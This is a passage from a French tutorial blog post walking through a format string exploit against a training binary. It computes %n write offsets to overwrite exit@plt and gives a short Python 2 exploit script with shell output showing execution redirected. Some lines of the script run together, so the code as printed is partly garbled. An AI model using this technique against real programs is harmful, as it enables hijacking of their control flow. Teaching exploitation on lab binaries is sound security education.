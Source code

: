 ```

print exploit
```

![Ecriture dans la partie haute de l'adresse](/medias/articles/format-strings/image-11.png)

8506, voici une valeur bien inattendue. C'est pourtant logique, le formateur "_%n_" inscrivant le nombre de caractères précédemment affichés il va dépendre du nombre déja inscrit dans la partie basse.

Mais alors comment inscrire 0x0804 dans la partie haute ? Et bien en inscrivant 0x10804 dans la "partie basse" de exit@plt+2.

0x10804-0x8506+8 = 33542 ( +8 car nous avons ajouté une adresse donc 8 caractères ). Nous obtenons à présent le code suivant :

```
import struct
hello_func = 0x80484fd #func to call to win exit_plt = 0x804a020
exploit = ""
exploit += struct.pack('I',exit_plt) #7eme arg
exploit += struct.pack('I',exit_plt+2) # 8eme arg
exploit += "%34037x" exploit += "%7$n "
exploit += "%33542x" exploit += "%8$n"
print exploit
```

![Les adresses ont bien les bonnes valeurs](/medias/articles/format-strings/image-12.png)

Nous pouvons constater que l'adresse inscrite dans la PLT est bien celle de la fonction hello. La redirection est donc valide :

![](/medias/articles/format-strings/image-13.png)

Nous pouvons jouer cet exploit hors de GDB :

```
shoxx@pwnable:~/Format4$ python2 sploit.py | ./vuln
 "AAAA                                                   [....]
code execution redirected! you win
```

### Conclusion

Nous avons ici exploité une format string afin de modifier une adresse située dans la PLT. Cet exemple est "typique" d'une format string. Je vous invite dans la section [writeup](https://shoxxdj.fr/writeups/) pour découvrir d'autres cas d’exploitation de cette vulnérabilité.
